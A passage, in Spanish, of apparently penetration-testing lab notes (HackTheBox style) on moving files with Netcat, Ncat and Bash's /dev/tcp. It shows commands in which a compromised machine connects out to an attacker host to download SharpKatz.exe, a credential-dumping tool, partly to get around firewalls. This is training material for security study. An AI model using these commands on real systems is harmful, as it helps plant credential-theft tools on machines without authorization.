 Con Ncat en la máquina atacante, podemos usar la opción `--send-only` en lugar de `-q`. El flag `--send-only` hace que Ncat termine una vez que su entrada haya sido agotada.

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Ncat
sherlock28@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### **Transferencia Inversa: Escuchando en la Máquina Atacante**

En lugar de escuchar en la máquina comprometida, podemos conectarnos a un puerto en nuestra máquina atacante para realizar la transferencia de archivos. Este método es útil si hay un firewall que bloquea conexiones entrantes. Escucharemos en el puerto 443 de nuestro **Pwnbox** y enviaremos el archivo **SharpKatz.exe** como entrada a Netcat.

### **Máquina Atacante - Enviando Archivo como Entrada a Netcat**

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Netcat Original
sherlock28@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### **Máquina Comprometida - Conectándose a Netcat para Recibir el Archivo**

```bash
victim@target:~$ # Ejemplo usando Netcat Original
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Podemos hacer lo mismo usando Ncat:

### **Máquina Atacante - Enviando Archivo como Entrada a Ncat**

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Ncat
sherlock28@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### **Máquina Comprometida - Conectándose a Ncat para Recibir el Archivo**

```bash
victim@target:~$ # Ejemplo usando Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

Si no tenemos Netcat o Ncat en la máquina comprometida, Bash también admite operaciones de lectura/escritura utilizando un archivo pseudo-dispositivo `/dev/TCP/`.

Escribir en este archivo abre una conexión TCP a `host:port`, y esta característica puede ser utilizada para transferencias de archivos.
